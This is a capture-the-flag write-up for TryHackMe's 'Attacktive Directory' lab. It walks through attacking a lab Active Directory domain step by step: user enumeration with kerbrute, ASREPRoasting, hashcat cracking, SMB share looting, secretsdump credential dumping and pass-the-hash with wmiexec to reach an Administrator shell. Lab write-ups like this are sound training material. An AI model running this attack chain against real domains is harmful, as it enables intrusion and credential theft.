

# TryHackMe Writeup - Attacktive Directory

This is a writeup for the TryHackMe machine "Attacktive Directory".
Link: <https://tryhackme.com/room/attacktivedirectory>

## Step 0: Prerequisites

### 0\.1 Impacket Installation

I use my own VM for CTF challenges. So I needed to set up impacket. I followed the steps which were described in the CTF challenge and cloned the github repository:

```
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```

Then I installed the python requirements with:

```
pip3 install -r /opt/impacket/requirements.txt
```

After this I changed into the impacket folder and run the installation file:

```
cd /opt/impacket/ && sudo python3 ./setup.py install
```

### 0\.2 Bloodhound & Neo4j Installation

I also needed to install bloodhound and neo4j. This can easily done via apt:

```
sudo apt-get update && sudo apt install bloodhound neo4j
```

After this all installtions are finished and I could start the CTF challenge.

## Step 1: Enumeration

### 1\.1 Nmap scan

I started a nmap scan over all ports with the following command:

```
sudo nmap -p- -v -Pn [Machine IP]
```

Many open ports were discovered:

```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49672/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49691/tcp open  unknown
49703/tcp open  unknown
49798/tcp open  unknown
```

### 1\.2 SMB/NetBIOS

I used <https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb> to read more about SMB pentesting (port 139/445).

Here the short version:

Port 139: NetBIOS

NetBIOS is a protocol that allows clients to communicate with network hardware and transmit data via the network. Clients are identified via the NetBIOS name.

Port 445: SMB over IP

SMB is an application layer network protocol to give access to shared files or resources like printers, etc. On Windows, SMB can be used without NetBIOS.  On other systems, Port 139 will be used, what means that SMB is used via NetBIOS.

SMB can be enumerated with the tool "enum4linux". Bevor enumeration we must add the IP address of the machine to the /etc/hosts file:

```
sudo echo [Machine IP] spookysec.local >> /etc/hosts
```

Then enum4linux can be executed.

```
enum4linux spookysec.local
```



More information about often used invalid tld can be found here: <https://wiki.samba.org/index.php/Active_Directory_Naming_FAQ#Using_an_Invalid_TLD>

1\.3 Kerberos

Kerberos is an authentication protocol which is used in active directory. More information about kerberos itself can be found here: <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication>

I downloaded the provided usernames and password list to my kali machine. I also downloaded kerbrute to my kali machine:

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
```

After downloading it is necessary to give kerbrute execution permissions. This can be done with:

```
sudo chmod u+x kerbrute_linux_amd64
```

After this we can start kerbrute with 

```
./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local users.txt
```

which will result in the following output:


## Task 2: Exploiting

### 2\.1 Kerberos Exploiting - ASREPRoasting

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.  
  
For ASREPRoasting we will use kerbrute.

```
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -no-pass
```

This command gives us a kerberos ticket of the svc-admin account:


After having a look at <https://hashcat.net/wiki/doku.php?id=example_hashes> I found out, that we got a hash named "Kerberos 5, etype 23, AS-REP" which has the hash mode 18200.

Now we can use hashcat to crack the hash with the provided password list.   
First i copied the hash value and saved it to a file. Then I used this file with hashcat:

```
hashcat -m 18200 -a 0 kerberos.ticket passwords.txt -O
```

This command uses the hashmethod 18200 (which is the correct one for this hash). It also uses the action "0" which means that is uses a password list to crack the hash.


  
## Task 4: Further enumeration

We can use the tool smbclient to map remote smb shares. With

```
smbclient -h
```

we can get further information about the tool.

With the command

```
smbclient -U svc-admin -L \\spookysec.local
```

we get a list of the smb shares, after we enter the password for the user svc-admin.


After this we can connect to the backup share, which seems interesting, with the command

```
smbclient -U svc-admin //spookysec.local/backup
```

Now a shell opens and we can use  different commands. With 

```
ls
```

we can list the files and discover a textfile.

With the command

```
get [FILENAME]
```

we can download the file to our machine to view its content.

The content of the file is base64 encoded. I used a simple online base64 decoder to get the real content, which provides us another login credential. This time for the backup user.

## Task 5: Domain Privilege Escalation

With the command

```
python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@spookysec.local
```

we will get all usernames and according hashes that are synched with the AD. Exploiting this, we will be able to escalate the active directory privileges.

With a Pass-the-hash attack we can impersonate the administrator user only by using his ntlm hash which we got out of the previous executed command.

## Task 6: Flags

To get the flags, I used the previous found credentials to open a remote desktop connection with the command

```
xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:spookysec.local
```

The administrator flag was not able to receive via RDP. In this case the pass the hash method was needed to be performed. For this I used another impacket tool:

```
python3 /opt/impacket/examples/wmiexec.py spookysec.local/Administrator@[IP ADDRESS] -hashes [NTLM HASHES]
```

Then a Windows command shell opens up. I navigated to C:\\Users\\Administrator\\Desktop and used 

```
type root.txt
```

to get the content of the text file, containing the last flag.

The machine is done!
